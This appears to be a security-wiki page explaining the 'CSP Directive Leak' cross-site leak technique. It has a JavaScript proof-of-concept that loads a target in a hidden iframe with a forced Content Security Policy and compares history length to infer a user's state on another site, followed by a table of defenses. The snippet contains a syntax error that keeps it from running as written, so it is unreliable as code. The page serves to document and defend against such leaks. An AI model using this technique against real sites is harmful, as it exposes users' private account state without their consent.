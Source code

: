 +++
title = "CSP leaks"
description = ""
category = "Attack"
abuse = [
    "CSP Violations",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

## CSP Directive Leak

iframe elements have a csp attribute which specifies the [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) that an embedded document must agree to enforce upon itself. 

Without using the `Allow-CSP-From` header an embedder is not allowed to set a more restrictive policy on to an iframe,
For most directives so by trying to apply `img-src 'https://example.com';` to the iframe csp attribute it will refuse to load unless it’s only allowing images from that source this can be detected with the onload event. [Run demo](https://xsinator.com/testing.html#CSP%20Directive%20Leak)

This can be abused if csp attrbutes are set conditionally on user state and embedding is allowed.

```javascript
async function ifResticts(url, csp='default-src \'self\';') => {
    return new Promise((r)=> {
        let i = document.createElement('iframe');
        // attempt to enforce a csp onto the iframe.
        i.setAttribute('csp', csp);
        i.src = url;
        // Hide the iframe
        i.hidden = true;
        
        // get inital history length
        let h0 = history.length;

        // max history is 50 
        if(h0 > 48){
            throw new Error('History to long')
        }

        i.onload = () => {
            // overwrite onload
            i.onload = () => {
                // the length will not increase on a page error such as when not allowed to apply a CSP.
                let h1 = history.length
                i.remove();
                return r(h1 - h0);
            }

            // reload
            i.src = url;
        }
        document.body.append(i);
    });
}
```
{{< hint info >}}
As of November 2021, Firefox doesn't support the csp attribute for an [iframe](https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/csp).
{{< /hint >}}


## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|                                         ✔️                                         |                         ❌                          |                                ✔️                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
